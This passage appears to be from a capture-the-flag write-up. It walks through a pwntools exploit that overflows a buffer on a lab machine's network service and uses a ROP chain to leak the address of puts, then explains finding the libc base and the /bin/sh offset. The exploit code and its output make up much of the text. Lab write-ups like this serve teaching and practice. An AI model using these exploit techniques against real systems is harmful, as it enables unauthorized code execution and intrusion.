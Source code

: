 

    #!/usr/bin/env python

    from pwn import *

    context(os="linux", arch="amd64")
    #context(log_level='DEBUG')

    junk = "A"*120

    got_puts = p64(0x404018)
    plt_system = p64(0x401040)
    pop_rdi  = p64(0x40120b)
    main     = p64(0x40115f)
    payload = junk + pop_rdi + got_puts + plt_system + main

    p = remote("10.10.10.147", 1337)
    p.recvline()
    p.sendline(payload)
    leaked_puts = u64(p.recvline().strip()[7:-11].ljust(8,"\x00"))
    log.info("Leaked puts address: %x" % leaked_puts)



And it gives the address:



    root@kali# ./pwn_safe-m1_stg1.py 
    [+] Opening connection to 10.10.10.147 on port 1337: Done
    [*] Leaked puts address: 7ffa1cac8f90
    [*] Closed connection to 10.10.10.147 port 1337



That address will be different each time, but the bottom 12 bits (or 1.5
bytes or 3 nibbles or 3 hex characters), in this case f90, will be
constant. I can look them up in something like [this libc
database](https://libc.nullbyte.cat/?q=puts%3Af90&l=libc6_2.24-11%2Bdeb9u4_amd64):

![](/img/1571339638972.png)

I assume it's the only 64-bit one (since this is an x64 binary). Now I
have the offset to puts, so I can find the libc base, and then add the
offset to the `/bin/sh` string, to get that address.

The code looks like:



    #!/usr/bin/env python

    from pwn import *

    context(os="linux", arch="amd64")
    #context(log_level='DEBUG')

    junk = "A"*120

    got_puts = p64(0x404018)
    plt_system = p64(0x401040)
    pop_rdi  = p64(0x40120b)
    main     = p64(0x40115f)
    payload = junk + pop_rdi + got_puts + plt_system + main
